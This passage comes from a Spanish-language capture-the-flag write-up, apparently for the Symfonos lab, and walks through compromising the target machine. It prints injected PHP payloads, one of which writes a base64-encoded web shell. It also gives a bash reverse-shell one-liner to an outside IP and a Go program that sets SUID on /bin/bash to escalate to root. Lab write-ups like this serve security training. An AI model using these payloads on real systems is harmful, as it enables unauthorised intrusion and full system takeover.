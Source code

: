 ```
-d $'{"text":"file_put_contents(\'prueba.txt\',\'Hola mundo\')"}' 
-d $'{"text":"file_put_contents(\'cmd.php\',base64_decode(\'PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K\'))"}' 
```
Aqui convertimos en base64.

![rev](https://helhat.github.io/assets/img/Symfonos/rev.png){: .normal }

Como respuesta podemos verificar que se interpreta el cuerpo agregado.

![ejec](https://helhat.github.io/assets/img/Symfonos/ejec.png){: .normal }

Comprobada la ejecucion de comando del sistema, agregamos el one liner.

```
bash -c 'bash -i >& /dev/tcp/192.168.65.139/443 0>&1'
```

![netcat](https://helhat.github.io/assets/img/Symfonos/netcat.png){: .normal }

---
## Escala de Privilegios / Persistencia

Ya con acceso verificamos los usuarios en el sistema, y podemos escalar privilegios a Achilles.

![user](https://helhat.github.io/assets/img/Symfonos/user.png){: .normal }

Verificamos los permisos sudo.

![sudo](https://helhat.github.io/assets/img/Symfonos/sudo.png){: .normal }

Entonces como podemos ejecutar con go cualquier script como suid.

Creamos un script para cambiar los permisos de una bash.

```go
package main
import (
    "log"
    "os/exec"
)

func main() {
    cmd := exec.Command("chmod", "u+s", "/bin/bash")
    err := cmd.Run()
	if  err != nil {
		log.Fatal(err)
	}		
}
```
Observamos que originalmente no tiene permisos SUID, pero luego de ejecutar como sudo go el binario creado para cambiar permisos a la bash, podremos escalar privilegios.

![bash](https://helhat.github.io/assets/img/Symfonos/bash.png){: .normal }
![bash2](https://helhat.github.io/assets/img/Symfonos/bash2.png){: .normal }

Ejecutamos la bash
```
bash -p
```
![root](https://helhat.github.io/assets/img/Symfonos/root.png){: .normal }

---


